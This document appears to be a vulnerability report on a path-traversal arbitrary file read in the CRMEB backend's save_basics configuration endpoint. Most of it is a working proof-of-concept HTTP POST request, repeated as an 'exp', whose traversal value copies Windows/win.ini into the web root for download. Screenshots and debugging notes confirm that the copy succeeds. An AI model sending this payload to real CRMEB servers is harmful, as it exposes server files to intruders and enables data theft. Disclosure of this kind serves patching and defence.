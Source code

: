 # There is an arbitrary file reading vulnerability in the CRMEB backend

There is an arbitrary file reading vulnerability in the `app/adminapi/controller/v1/setting/SystemConfig.php `route.

![image](https://github.com/user-attachments/assets/ce8fb063-df39-49b4-9884-ca923b687135)


There is an operation to copy files in the `save_basics` function, and there is no filtering `../`, so the system files can be copied to the website directory to perform arbitrary file reading operations.

![image](https://github.com/user-attachments/assets/02ee639f-f931-4399-887e-fdb0936fd494)


Under normal circumstances, the public directory of the website only contains the website code.

![image](https://github.com/user-attachments/assets/b42ec85f-f547-4739-aeea-be2ac827a576)


First log in to the backend, and then use the following poc

```shell
POST /adminapi/setting/config/save_basics HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authori-zation: 
Content-Length: 72
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/admin/setting/agreement
Cookie: OFBiz.Visitor=10000; _jspxcms=d519070f300b47268e1ab5b4af70c446; cb_lang=zh-cn; PHPSESSID=fa8f42ae7d4d4d2600f5da4b2299930a; WS_ADMIN_URL=ws://127.0.0.1/notice; WS_CHAT_URL=ws://127.0.0.1/msg; uuid=1; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiJmYTM1NGMxYjBmMTY2MjY2NzUxYTg1NzUxMDgyYTRkMyIsImlzcyI6IjEyNy4wLjAuMSIsImF1ZCI6IjEyNy4wLjAuMSIsImlhdCI6MTczMDcyNDQ3MCwibmJmIjoxNzMwNzI0NDcwLCJleHAiOjE3MzMzMTY0NzAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.3H3NJma1X_ea4yaNfOoq1W-pbmGUfLG5cf8O5d6w7kA; expires_time=1733316470; XDEBUG_SESSION=14746

{
    "weixin_ckeck_file": "../../../../../../../../Windows/win.ini"
}
```

![image](https://github.com/user-attachments/assets/f42c3292-e6a1-4ca7-9007-98e1cd9e81a6)


Successfully copied the `win.ini` system file to the running directory of the website

![image](https://github.com/user-attachments/assets/98900587-825b-4b6a-9aaa-d8e1c379f81a)


And directly access http://127.0.0.1/win.ini to download files

![image](https://github.com/user-attachments/assets/c9a5a904-9f8b-4383-a890-122f4e0afab0)

After dynamic adjustment, you can see that he changed the file from `C:\Users\k\Desktop\shenji\CRMEB-5.4.0\CRMEB-5.4.0\crmeb\public\../../../../ ../../../../Windows/win.ini` was copied to `C:\Users\k\Desktop\shenji\CRMEB-5.4.0\CRMEB-5.4.0\crmeb\public\win. ini`
![image](https://github.com/user-attachments/assets/845154f9-9a58-4cf0-9ea3-347c8fb8ca93)
exp:

```
POST /adminapi/setting/config/save_basics HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authori-zation: 
Content-Length: 72
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/admin/setting/agreement
Cookie: OFBiz.Visitor=10000; _jspxcms=d519070f300b47268e1ab5b4af70c446; cb_lang=zh-cn; PHPSESSID=fa8f42ae7d4d4d2600f5da4b2299930a; WS_ADMIN_URL=ws://127.0.0.1/notice; WS_CHAT_URL=ws://127.0.0.1/msg; uuid=1; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiJmYTM1NGMxYjBmMTY2MjY2NzUxYTg1NzUxMDgyYTRkMyIsImlzcyI6IjEyNy4wLjAuMSIsImF1ZCI6IjEyNy4wLjAuMSIsImlhdCI6MTczMDc5MDg3MCwibmJmIjoxNzMwNzkwODcwLCJleHAiOjE3MzMzODI4NzAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.HqbAlDHkPOm0WTPajjFq5G1hM9Ow1aBNt_1rzbdkF6Y; expires_time=1733316470; XDEBUG_SESSION=18503

{
    "weixin_ckeck_file": "../../../../../../../../Windows/win.ini"
}
```
